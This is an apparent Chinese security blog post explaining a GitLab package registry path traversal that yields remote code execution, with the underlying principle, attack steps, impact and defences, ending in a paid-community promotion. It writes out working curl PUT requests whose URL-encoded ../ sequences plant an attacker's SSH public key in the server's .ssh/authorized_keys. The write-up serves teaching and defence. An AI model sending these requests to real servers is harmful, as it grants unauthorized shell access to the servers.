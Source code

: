 #  通过路径遍历所实现的RCE   
原创 Richardo1o1  迪哥讲事   2024-05-23 23:00  
  
## 漏洞原理  
  
路径遍历：这种类型的安全漏洞允许攻击者访问应用程序本不打算公开的文件和目录。通过构造特殊的输入，如使用../（向上遍历目录）的序列，攻击者可以逃离受限的目录，访问文件系统上的其他位置。  
  
利用GitLab包注册API：攻击者通过向GitLab的包注册API发送特殊构造的请求，利用路径遍历漏洞，将恶意文件（如SSH公钥）写入到一个敏感文件（如.ssh/authorized_keys）中。  
## 攻击过程  
  
启用包注册功能：确保GitLab实例中启用了包注册功能。  
  
创建项目：在启用了包注册的GitLab实例中创建一个新项目。  
  
生成私人令牌：为了通过API调用GitLab，创建一个私人令牌。  
  
发送恶意请求：使用curl发送一个PUT请求，该请求包含了一个经过精心构造的路径，利用路径遍历漏洞来覆盖或创建.ssh/authorized_keys文件，将攻击者的SSH公钥添加进去。  
## 示例请求：  
  
curl -H "Private-Token: $(cat token)" http://10.26.0.5/api/v4/projects/2/packages/maven/a%2fb%2fc%2fd%2fe%2ff%2fg%2fh%2fi%2f1/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f.ssh%2fauthorized_keys -XPUT --path-as-is --data-binary @/home/asakawa/.ssh/id_rsa.pub  
  
在这个请求中，%2e%2e是URL编码的..，代表路径中的“上一级目录”。  
  
获取Shell访问：在.ssh/authorized_keys文件被成功写入攻击者的SSH公钥后，攻击者就可以使用SSH以git用户的身份登录GitLab服务器，并执行任意命令。  
## 漏洞的危害  
  
这个漏洞允许未经授权的攻击者远程写入文件到GitLab服务器上的任意位置，这可能导致多种安全问题，包括但不限于：  
  
未经授权的服务器访问。  
  
以服务器用户身份执行任意代码。  
  
进一步的权限提升攻击。  
## 防御措施  
  
立即升级到最新版本的GitLab，以确保包含了对该漏洞的修复。  
  
定期检查并限制对敏感文件（如.ssh/authorized_keys）的写入权限，确保仅受信任的进程和用户有权修改。  
  
在可能的情况下，限制外部API的访问，仅允许受信任的用户和系统调用这些接口。  
  
定期审计和监控重要文件的变化，以便快速检测到未经授权的修改行为。  
## 正常情况下的请求  
  
在没有安全漏洞利用的情况下，一个正常的API请求到GitLab的包注册功能可能是为了上传或下载包文件，而不会试图访问或修改系统文件。例如，一个正常的上传Maven包的请求可能看起来像这样：  
```
curl -H "Private-Token: <your_token>" -XPUT http://gitlab.example.com/api/v4/projects/2/packages/maven/com/example/myapp/1.0/myapp-1.0.jar --data-binary @/path/to/myapp-1.0.jar


```  
  
这个请求是将一个名为myapp-1.0.jar的文件上传到GitLab实例中项目ID为2的Maven仓库中。这里没有尝试越过授权路径或者修改敏感文件。  
## 受到攻击之后的请求  
  
受到攻击时，请求会包含恶意构造的路径，尝试利用路径遍历漏洞覆盖或修改敏感文件。攻击者可能会发送如下请求：  
```
curl -H "Private-Token: <your_token>" http://gitlab.example.com/api/v4/projects/2/packages/maven/a%2fb%2fc%2fd%2fe%2ff%2fg%2fh%2fi%2f1/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f.ssh%2fauthorized_keys -XPUT --path-as-is --data-binary @/home/attacker/.ssh/id_rsa.pub
#其实就是:
curl -H "Private-Token: <your_token>" http://gitlab.example.com/api/v4//projects/2/packages/maven/a/b/c/d/e/f/g/h/i/1/../../../../../../../../../../.ssh/authorized_keys -XPUT --path-as-is --data-binary @/home/attacker/.ssh/id_rsa.pub


```  
  
在这个请求中，攻击者利用了路径遍历（%2e%2e是..的URL编码，表示上一级目录）来尝试将自己的SSH公钥添加到GitLab服务器上git用户的.ssh/authorized_keys文件中。如果成功，这将允许攻击者通过SSH以git用户身份登录到服务器，并可能执行进一步的恶意操作。  
## 整个流程  
### 环节 1：准备阶段  
  
启用GitLab包注册功能：攻击者首先确认目标GitLab实例启用了包注册功能，这是他们利用这个漏洞的前提条件。 创建项目：攻击者在GitLab实例中创建一个项目，或者找到一个已经存在的项目，该项目启用了包注册功能。 获取API访问令牌：攻击者需要一个API访问令牌来进行API调用。这可以通过创建一个私有访问令牌来实现，这通常是通过GitLab的用户界面完成的。  
### 环节 2：构造恶意请求  
  
构造路径遍历请求：攻击者构造一个恶意的API请求，该请求利用路径遍历漏洞。这通过在请求路径中包含多个../序列来实现，目的是跨越目录边界，访问GitLab服务器上的任意文件系统位置。 目标文件选择：攻击者选择一个目标文件，例如.ssh/authorized_keys，以便能够在成功利用漏洞后通过SSH访问服务器。 发送请求：使用构造好的路径和目标文件，攻击者发送一个PUT请求，试图将自己的SSH公钥写入到目标GitLab服务器的.ssh/authorized_keys文件中。  
### 环节 3：利用漏洞  
  
请求处理：GitLab服务器接收到请求，并开始处理。由于存在路径遍历漏洞，服务器没有正确地限制请求路径的范围，导致请求跳出了预定的路径。 写入文件：恶意请求成功绕过了路径限制，将攻击者的SSH公钥写入了.ssh/authorized_keys文件。  
### 环节 4：获取访问权限  
  
SSH访问：攻击者现在可以使用其SSH私钥通过SSH作为git用户登录到GitLab服务器，因为其公钥已被添加到authorized_keys文件中。 执行命令：一旦获得对GitLab服务器的SSH访问权限，攻击者可以执行任意命令，从而完全控制服务器。  
  
如果你是一个长期主义者，欢迎加入我的知识星球，我们一起往前走，每日都会更新，精细化运营，微信识别二维码付费即可加入，如不满意，72 小时内可在 App 内无条件自助退款前面有同学问我有没优惠券，这里发放100张100元的优惠券,用完今年不再发放  
  
![](https://mmbiz.qpic.cn/mmbiz_png/YmmVSe19Qj7N5nMaJbtnMPVw96ZcVbWfp6SGDicUaGZyrWOM67xP8Ot3ftyqOybMqbj1005WvMNbDJO0hOWkCaQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/YmmVSe19Qj5jYW8icFkojHqg2WTWTjAnvcuF7qGrj3JLz1VgSFDDMOx0DbKjsia5ibMpeISsibYJ0ib1d2glMk2hySA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
## 往期回顾  
  
  
[](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247486912&idx=1&sn=8704ce12dedf32923c6af49f1b139470&chksm=e8a607a3dfd18eb5abc302a40da024dbd6ada779267e31c20a0fe7bbc75a5947f19ba43db9c7&scene=21#wechat_redirect)  
  
[dom-xss精选文章](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247488819&idx=1&sn=5141f88f3e70b9c97e63a4b68689bf6e&chksm=e8a61f50dfd1964692f93412f122087ac160b743b4532ee0c1e42a83039de62825ebbd066a1e&scene=21#wechat_redirect)  
  
  
[年度精选文章](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247487187&idx=1&sn=622438ee6492e4c639ebd8500384ab2f&chksm=e8a604b0dfd18da6c459b4705abd520cc2259a607dd9306915d845c1965224cc117207fc6236&scene=21#wechat_redirect)  
[](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247487187&idx=1&sn=622438ee6492e4c639ebd8500384ab2f&chksm=e8a604b0dfd18da6c459b4705abd520cc2259a607dd9306915d845c1965224cc117207fc6236&scene=21#wechat_redirect)  
  
  
[Nuclei权威指南-如何躺赚](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247487122&idx=1&sn=32459310408d126aa43240673b8b0846&chksm=e8a604f1dfd18de737769dd512ad4063a3da328117b8a98c4ca9bc5b48af4dcfa397c667f4e3&scene=21#wechat_redirect)  
  
  
[漏洞赏金猎人系列-如何测试设置功能IV](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247486973&idx=1&sn=6ec419db11ff93d30aa2fbc04d8dbab6&chksm=e8a6079edfd18e88f6236e237837ee0d1101489d52f2abb28532162e2937ec4612f1be52a88f&scene=21#wechat_redirect)  
  
  
[漏洞赏金猎人系列-如何测试注册功能以及相关Tips](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247486764&idx=1&sn=9f78d4c937675d76fb94de20effdeb78&chksm=e8a6074fdfd18e59126990bc3fcae300cdac492b374ad3962926092aa0074c3ee0945a31aa8a&scene=21#wechat_redirect)  
  
## 参考  
  
https://hackerone.com/reports/733072  
  
